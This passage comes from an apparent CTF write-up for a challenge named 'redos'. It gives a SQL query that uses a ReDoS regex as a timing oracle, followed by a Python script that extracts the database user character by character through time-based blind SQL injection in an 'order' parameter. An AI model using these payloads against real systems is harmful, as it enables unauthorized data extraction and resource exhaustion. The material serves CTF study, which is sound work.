 #### `redos`

```sql
SELECT
    CONCAT( 'RCTF{', USER (), '}' ) AS FLAG 
WHERE
    '🍬关注嘉然🍬' = '🍬顿顿解馋🍬' OR '🍬Watch Diana a day🍬' = '🍬Keep hunger away🍬' OR '🍬嘉然に注目して🍬' = '🍬食欲をそそる🍬' 
ORDER BY
(
    SELECT 1 WHERE
        IF(
            ASCII(SUBSTR(USER(), 1, 1 )) = 65,
            REPEAT('a', 100),
            'a'
        )
        RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b' 
)
```

### payload

```python
# -*- coding:utf8 -*-
import requests
import string

flag = ''
select = 'select/**/user()'
url = "http://127.0.0.1:11002/?order="
for j in range(1, 66):
    for i in string.printable:
        #payload="updatexml(1,if(substr(({}),{},1)='{}',repeat('a',40000000),0),1)".format(select, j, i)
        payload = "updatexml(1,if(ascii(substr(({}),{},1))='{}',concat(repeat('a',40000000),repeat('a',40000000),repeat('a',40000000),repeat('a',40000000),repeat('b',10000000)),1),1)".format(select, j, ord(i))
        url1 = url + payload
        req = requests.get(url1)
        #print(req.elapsed.total_seconds())
        #print(payload)
        if req.elapsed.total_seconds() > 1.4:
            flag += i
            print(payload)
            print(flag)
```

## VerySafe

> *2021/10/20*

### 题目
